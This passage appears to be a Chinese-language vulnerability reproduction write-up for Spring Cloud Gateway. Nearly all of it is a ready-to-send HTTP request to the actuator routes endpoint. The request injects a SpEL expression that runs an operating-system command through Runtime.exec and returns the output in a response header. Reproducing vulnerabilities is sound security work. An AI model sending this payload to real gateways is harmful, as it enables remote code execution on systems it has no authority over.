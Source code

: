![img](assets/1669916617362-50ef43d6-6707-40dc-a84e-11b660d78301.png)



漏洞复现

1. 添加包含恶意的路由，发送如下数据包即可添加一个包含恶意SpEL表达式的路由

```bash
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: 192.168.1.10:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 329

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
}
```
